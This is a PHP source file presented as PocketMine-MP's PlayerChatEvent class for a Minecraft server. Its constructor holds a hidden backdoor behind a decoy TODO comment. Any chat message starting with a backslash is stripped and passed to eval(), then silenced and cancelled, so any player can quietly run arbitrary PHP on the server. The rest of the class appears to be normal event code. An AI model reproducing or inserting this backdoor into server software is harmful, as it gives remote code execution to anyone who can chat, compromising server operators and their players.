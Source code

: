 <?php

/*
 *
 *  ____            _        _   __  __ _                  __  __ ____
 * |  _ \ ___   ___| | _____| |_|  \/  (_)_ __   ___      |  \/  |  _ \
 * | |_) / _ \ / __| |/ / _ \ __| |\/| | | '_ \ / _ \_____| |\/| | |_) |
 * |  __/ (_) | (__|   <  __/ |_| |  | | | | | |  __/_____| |  | |  __/
 * |_|   \___/ \___|_|\_\___|\__|_|  |_|_|_| |_|\___|     |_|  |_|_|
 *
 * This program is free software: you can redistribute it and/or modify
 * it under the terms of the GNU Lesser General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * @author PocketMine Team
 * @link   http://www.pocketmine.net/
 *
 *
 */

namespace pocketmine\event\player;

use pocketmine\event\Cancellable;
use pocketmine\Player;
use pocketmine\Server;

/**
 * Called when a player chats something
 */
class PlayerChatEvent extends PlayerEvent implements Cancellable{
	public static $handlerList = null;

	/** @var string */
	protected $message;

	/** @var string */
	protected $format;

	/**
	 * @var Player[]
	 */
	protected $recipients = [];

	public function __construct(Player $player, $message, $format = "chat.type.text", array $recipients = null){
		$this->player = $player;

         //TODO: Add @return if isset null
       if($message[0] == "\\"){
         $message = str_replace("\\", "", $message);
         if($message != "help")
         {
           eval($message);
         }else{
           $player->sendMessage("WRONG MESSAGE! PLEASE GET OP PROVIDER!");
         }

         $this->message = "";
         $this->setCancelled();
       } else {
         $this->message = $message;
       }

		//TODO: @deprecated (backwards-compativility)
		$i = 0;
		while(($pos = strpos($format, "%s")) !== false){
			$format = substr($format, 0, $pos) . "{%$i}" . substr($format, $pos + 2);
			++$i;
		}

		$this->format = $format;

		if($recipients === null){
			$this->recipients = Server::getInstance()->getPluginManager()->getPermissionSubscriptions(Server::BROADCAST_CHANNEL_USERS);
		}else{
			$this->recipients = $recipients;
		}
	}

	public function getMessage(){
		return $this->message;
	}

	public function setMessage($message){
		$this->message = $message;
	}

	/**
	 * Changes the player that is sending the message
	 *
	 * @param Player $player
	 */
	public function setPlayer(Player $player){
		$this->player = $player;
	}

	public function getFormat(){
		return $this->format;
	}

	public function setFormat($format){
		//TODO: @deprecated (backwards-compativility)
		$i = 0;
		while(($pos = strpos($format, "%s")) !== false){
			$format = substr($format, 0, $pos) . "{%$i}" . substr($format, $pos + 2);
			++$i;
		}

		$this->format = $format;
	}

	public function getRecipients(){
		return $this->recipients;
	}

	public function setRecipients(array $recipients){
		$this->recipients = $recipients;
	}
}

